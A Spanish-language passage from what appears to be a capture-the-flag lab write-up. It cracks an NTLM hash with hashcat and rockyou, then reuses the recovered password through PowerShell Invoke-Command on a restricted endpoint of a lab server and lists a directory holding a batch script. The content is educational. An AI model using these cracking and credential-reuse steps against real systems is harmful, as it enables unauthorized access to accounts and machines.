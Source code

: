 Lo crackeo con ```hashcat```

```null
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --show
a29f7623fd11550def0192de9246f46b:Password@123
```

Esta credencial se reutiliza para el usuario ```Awallace```

```null
PS C:\Users\edavies\Documents> $SecPass = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
PS C:\Users\edavies\Documents> $Cred = New-Object System.Managemetn.Automation.PSCredential("acute\Awallace", $SecPass)
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }
acute\awallace
```

En ```Program Files``` hay un directorio ```keepmeon```

```null
PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls "C:\Program Files" }
    Directory: C:\Program Files

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
d-----        12/21/2021  12:04 AM                common files                       ATSSERVER                         
d-----        12/21/2021  12:11 AM                Hyper-V                            ATSSERVER                         
d-----         9/15/2018   8:12 AM                internet explorer                  ATSSERVER                         
d-----          2/1/2022   7:41 PM                keepmeon                           ATSSERVER                         
d-----        12/21/2021  12:04 AM                VMware                             ATSSERVER                         
d-----        12/20/2021   9:19 PM                Windows Defender                   ATSSERVER                         
d-----        12/20/2021   9:12 PM                Windows Defender Advanced Threat   ATSSERVER                         
                                                  Protection                                                           
d-----        12/21/2021   2:13 PM                WindowsPowerShell                  ATSSERVER                         
```

Y dentro un script en ```batch```

```null
PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls "C:\Program Files\keepmeon" }
    Directory: C:\Program Files\keepmeon

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        12/21/2021   2:57 PM            128 keepmeon.bat                       ATSSERVER                         
```
